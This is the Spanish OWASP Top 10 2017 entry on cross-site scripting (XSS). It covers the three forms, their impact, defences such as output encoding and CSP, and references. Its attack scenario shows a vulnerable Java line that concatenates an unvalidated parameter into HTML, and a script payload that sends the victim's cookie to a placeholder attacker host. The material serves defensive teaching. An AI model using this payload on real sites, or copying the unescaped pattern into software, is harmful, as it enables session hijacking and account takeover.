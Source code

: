# A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿La aplicación es vulnerable?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://wiki.owasp.org/index.php/Content_Security_Policy)). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [Controles Proactivos de OWASP: #3 Codificación de datos](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Controles Proactivos de OWASP: #4 Validación de datos](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Estándar de Verificación de Seguridad en Aplicaciones de OWASP: V5](https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Guía de Pruebas de OWASP: Pruebas para XSS Reflejados](https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Guía de Pruebas de OWASP: Pruebas para XSS Almacenados](https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Guía de Pruebas de OWASP: Pruebas para XSS basados en DMO](https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Hoja de ayuda de OWASP: Prevención de XSS](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP: Prevención de XSS basado en DOM](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP: Evación de filtros de XSS](https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Externas

* [CWE-79 Inapropiada neutralización de entradas de datos suministradas por usuarios](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Plantillas para la inyección del lado del cliente](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
